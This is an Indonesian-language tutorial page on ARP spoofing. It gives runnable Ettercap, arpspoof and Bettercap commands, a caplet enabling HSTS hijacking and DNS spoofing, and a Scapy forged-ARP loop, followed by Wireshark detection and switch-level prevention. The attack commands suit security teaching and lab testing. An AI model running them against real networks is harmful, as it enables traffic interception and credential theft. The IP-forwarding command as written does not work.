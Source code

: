 ```yaml
---
sidebar_position: 1
---
```


# ARP Spoofing

## a. Menggunakan Ettercap
**Instalasi Ettercap:**
```bash
sudo apt update && sudo apt install ettercap-text-only
```

**Menjalankan Ettercap dalam mode teks:**
```bash
sudo ettercap -Tq -M arp:remote /192.168.1.1// /192.168.1.100//
```
- `-Tq` : Mode teks, tanpa GUI
- `-M arp:remote` : Mode MITM menggunakan ARP Spoofing
- `/192.168.1.1// /192.168.1.100//` : Menargetkan gateway dan korban


#### Menggunakan Wireshark untuk Mendeteksi ARP Spoofing
1. Buka Wireshark dan pilih interface jaringan yang digunakan.
2. Gunakan filter berikut untuk melihat paket ARP yang mencurigakan:
   ```
   arp.opcode == 2
   ```
3. Jika ada banyak ARP reply dari IP yang sama dengan MAC yang berbeda, kemungkinan terjadi ARP Spoofing.

### b. Menggunakan Arpspoof
**Instalasi Arpspoof:**
```bash
sudo apt install dsniff
```

**Menjalankan Arpspoof untuk menyerang target:**
```bash
sudo arpspoof -i eth0 -t [target] [gateway]
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

sudo arpspoof -i eth0 -t [gateway] [target]
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```
- `-i eth0` : Interface jaringan yang digunakan
- `-t 192.168.1.100` : Alamat IP korban
- `192.168.1.1` : Alamat IP gateway

**mengaktifkan port forwarding**
```bash
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

### c. Menggunakan Bettercap

#### Instalasi Bettercap
```bash
sudo apt update && sudo apt install bettercap -y
```

#### Menjalankan Bettercap
```bash
sudo bettercap -iface eth0
```

Setelah masuk ke CLI Bettercap, jalankan perintah berikut:

```bash
help                           # Menampilkan opsi bantuan yang tersedia di Bettercap
net.show                       # Menampilkan daftar perangkat yang terdeteksi dalam jaringan
net.probe on                   # Mengaktifkan pemindaian jaringan untuk mendeteksi perangkat secara aktif
net.sniff on                   # Mengaktifkan sniffing paket untuk menganalisis lalu lintas jaringan

set arp.spoof.targets 192.168.1.100  # Menentukan target untuk melakukan ARP Spoofing
arp.spoof on                   # Memulai serangan ARP Spoofing untuk meracuni cache ARP target
set net.sniff.filter tcp or udp # Menentukan filter sniffing untuk menangkap paket TCP atau UDP

hstshijack/hstshijack on        # Mengaktifkan HSTS Hijacking untuk menyusupi koneksi HTTPS
```

#### Menggunakan File Caplet untuk Automasi
Untuk mempercepat eksekusi perintah, gunakan file caplet:

```bash
cat > aria.cap << EOF
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 172.16.0.0/24
arp.spoof on
net.sniff on

set net.sniff.verbose true
set net.sniff.filter tcp or udp

hstshijack/hstshijack on
EOF
```

Jalankan Bettercap dengan caplet tersebut:
```bash
sudo bettercap -iface eth0 -caplet aria.cap
```

Caplet ini akan mengaktifkan pemindaian jaringan, menjalankan ARP Spoofing dalam mode full-duplex, dan mengaktifkan sniffing jaringan secara otomatis.

#### Opsi Lainnya
Selain contoh di atas, berikut beberapa opsi lain yang bisa dicoba:

1. **Menampilkan Informasi Lebih Detail**:
   ```plaintext
   net.recon on         # Mengaktifkan mode pengintaian lanjutan
   net.show verbose     # Menampilkan detail perangkat secara lengkap
   ```

2. **Menyerang Banyak Target Sekaligus**:
   ```plaintext
   set arp.spoof.targets 192.168.1.0/24  # Menargetkan seluruh subnet
   arp.spoof on
   ```

3. **Menjalankan Modul Lainnya**:
   ```plaintext
   dns.spoof on         # Melakukan DNS Spoofing
   http.proxy on        # Menjalankan proxy HTTP untuk manipulasi trafik
   ```

Opsi-opsi ini dapat dikombinasikan dalam file caplet untuk memperluas fungsionalitas Bettercap sesuai kebutuhan Anda.

## 3. Tools yang Digunakan untuk ARP Spoofing

| Tool | Deskripsi |
|------|----------|
| **Ettercap** | Tools untuk MITM attack dengan ARP Spoofing. |
| **Wireshark** | Digunakan untuk menganalisis paket jaringan dan mendeteksi ARP Spoofing. |
| **Arpspoof** | Tools sederhana untuk mengirim paket ARP palsu. |
| **Bettercap** | Framework security testing yang lebih canggih untuk MITM attack. |
| **Scapy** | Library Python untuk membuat dan mengirim paket ARP palsu. |

**Contoh penggunaan Scapy untuk mengirim paket ARP palsu:**
```python
from scapy.all import *
arp_response = ARP(op=2, psrc='192.168.1.1', hwsrc='aa:bb:cc:dd:ee:ff', pdst='192.168.1.100')
send(arp_response, loop=1, inter=2)
```

## 4. Pencegahan ARP Spoofing

### Static ARP
Menambahkan entri ARP statis untuk menghindari pembaruan palsu:
```bash
arp -s 192.168.1.1 00:11:22:33:44:55
```

### Port Security di Switch
Menggunakan port security untuk membatasi jumlah MAC address yang dapat terhubung ke port tertentu:
```bash
switch# configure terminal
switch(config)# interface fa0/1
switch(config-if)# switchport mode access
switch(config-if)# switchport port-security
switch(config-if)# switchport port-security maximum 1
switch(config-if)# switchport port-security violation restrict
switch(config-if)# exit
```

### Dynamic ARP Inspection (DAI)
Mengaktifkan inspeksi ARP pada switch untuk memverifikasi ARP yang sah:
```bash
switch# configure terminal
switch(config)# ip arp inspection vlan 10
switch(config)# interface fa0/1
switch(config-if)# ip arp inspection trust
switch(config-if)# exit
```

## Kesimpulan
ARP Spoofing adalah teknik serangan yang dapat digunakan untuk melakukan MITM attack, mencuri data, atau memutus koneksi jaringan. Dengan alat seperti Ettercap, Arpspoof, Bettercap, dan Scapy, serangan ini dapat dilakukan dengan mudah. Namun, ada beberapa metode pencegahan yang dapat digunakan seperti static ARP, port security, dan Dynamic ARP Inspection untuk mengamankan jaringan dari serangan ini.